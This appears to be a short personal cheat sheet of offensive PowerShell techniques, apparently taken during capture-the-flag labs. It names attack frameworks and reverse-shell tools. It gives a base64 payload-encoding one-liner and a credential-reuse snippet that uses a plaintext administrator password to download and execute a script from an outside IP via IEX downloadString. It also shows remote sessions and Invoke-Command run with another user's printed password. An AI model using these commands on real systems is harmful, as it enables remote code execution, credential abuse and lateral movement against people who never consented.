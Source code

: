 # powershell

bypass tool&#x20;

github.com/trustedsec/unicorn



framework   nishang   powersploit

reverse shell powercat



avoid any possible quotation and encoding issues

little endian UTF-16 encoding version.

```
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

hash

`get-filehash`

``

```
password reuse   need remote manager priv

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd) 
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.17.114/1.ps1')" -Credential $creds
or
new-pssession -computername . -credential $cred  // enter-pssession -computer arkham -credential $cred
enter-pssession 1

$user = "Sniper\Chris"
$pass = "36mEAhz/B8xQ~2VM"
$secstr = New-Object -TypeName System.Security.SecureString
$pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris

```
